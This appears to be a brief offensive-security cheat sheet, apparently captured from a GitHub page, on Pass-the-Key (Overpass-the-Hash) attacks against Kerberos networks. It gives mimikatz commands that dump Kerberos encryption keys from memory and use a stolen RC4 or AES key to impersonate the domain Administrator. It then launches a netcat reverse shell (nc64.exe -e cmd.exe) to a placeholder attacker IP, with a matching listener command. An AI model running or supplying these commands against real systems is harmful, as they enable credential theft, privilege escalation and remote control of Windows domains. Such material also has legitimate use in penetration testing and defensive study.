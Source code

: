 ## Similar to PtH but applied to kerberos networks.

### If we have any of those keys (DES,RC4,AES128,AES256) we can ask the KDC for a TGT without requiring the actual password. (Pass-the-Key)

#### privilege::debug

#### sekurlsa::ekeys

#### sekurlsa::pth /user:Administrator /domain:DOMAIN /rc4:KEY /run:"c:\tools\nc64.exe -e cmd.exe ATTACK_IP PORT"

#### /aes128:KEY can also be used instead 

#### /aes256:KEY can also be used instead 

#### nc -lvp PORT
